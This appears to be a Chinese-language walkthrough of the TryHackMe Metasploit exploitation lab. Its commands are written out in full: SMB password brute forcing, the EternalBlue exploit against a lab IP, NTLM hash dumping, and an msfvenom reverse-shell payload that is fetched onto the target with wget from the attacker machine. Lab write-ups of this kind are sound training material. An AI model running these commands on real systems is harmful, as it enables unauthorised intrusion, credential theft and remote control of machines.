 > https://tryhackme.com/room/metasploitexploitation
> #Metasploit #Offensive 
# Task 1 Introduction

前置介绍，并且提供了一份字典文件

# Task 2 Scanning

怀疑是远程环境有问题，在做SMB扫描的时候结果有误，通过OpenVPN连接到远程靶机用nmap做端口扫描的时候，结果也与标答不一致

第一空-扫描开放的端口，共开放了5个端口
![[Pasted image 20221216163045.png]]
第二空-扫描NetBIOS的名字
![[Pasted image 20221216161112.png]]
第三空-扫描特定端口上的服务类型
```shell
use scanner/http/http_version
set rport 8000
```
![[Pasted image 20221216163249.png]]
第四空-
```shell
use auxiliary/scanner/smb/smb_login
set smbuser penny
set PASS_FILE ./wordlists/MetasploitWordlist.txt
exploit
```
![[Pasted image 20221216164431.png]]
![[Pasted image 20221216164408.png]]

# Task 3 The Metasploit Database

介绍了`Metasploit`的数据库功能，方便进行项目管理

# Task 4 Vulnerability Scanning

介绍了漏扫的前置知识
```shell
info auxiliary/scanner/smtp/smtp_relay
```
![[Pasted image 20221216170938.png]]
![[Pasted image 20221216170948.png]]

# Task 5 Exploitation

对目标靶机进行漏扫，利用漏洞并进入靶机

第一空-利用漏洞
```shell
use auxiliary/scanner/smb/smb_ms17_010
setg 10.10.176.116
run
```
![[Pasted image 20221216172629.png]]
经过验证，确定远程为`Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`，并且存在永恒之蓝
接下来开始利用
```shell
use exploit/windows/smb/ms17_010_eternalblue
exploit
```
![[Pasted image 20221216172905.png]]
成功进入远程目标

第二空-读取`flag.txt`文件内的数据
利用`meterpreter`的`search`功能进行读取
```shell
search -f flag.txt
```
![[Pasted image 20221216173224.png]]
然后就可以进入shell进行读取
![[Pasted image 20221216173330.png]]

第三空-获取`pirate`用户的NTLM哈希值
```shell
hashdump
```
![[Pasted image 20221216173609.png]]
直接用`meterpreter`内置的`hashdump`就可以，但是用插件也是一样的
```shell
use post/windows/gather/hashdump
set SESSION 1
```
![[Pasted image 20221216174341.png]]

# Task 6 Msfvenom

介绍了如何使用`Msfvenom`生成可执行文件类型的载荷

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.122.193 LPORT=7777 -f elf > rev_shell.elf
```
生成一个基于`linux/x86/meterpreter/reverse_tcp`的，`elf`格式的反向弹shell的马

然后在远程靶机上执行
```shell
wget 10.10.122.193:10000/rev_shell.elf
chmod +x rev_shell.elf
```
![[Pasted image 20221216185633.png]]
成功从攻击机上下载下来载荷

然后在攻击机上执行
```shell
use exploit/multi/handler
set lhost 10.10.122.193
set lport 10001
```
*中间更改过端口，并且将马换为用Python3来驱动*
在远程靶机上执行马，收到反弹的shell
![[Pasted image 20221216190736.png]]
将`Session`转为后台保存之后，利用`linux/gather/hashdump`负载成功获取其他用户的哈希值
![[Pasted image 20221216191048.png]]


# Task 7 Summary

总结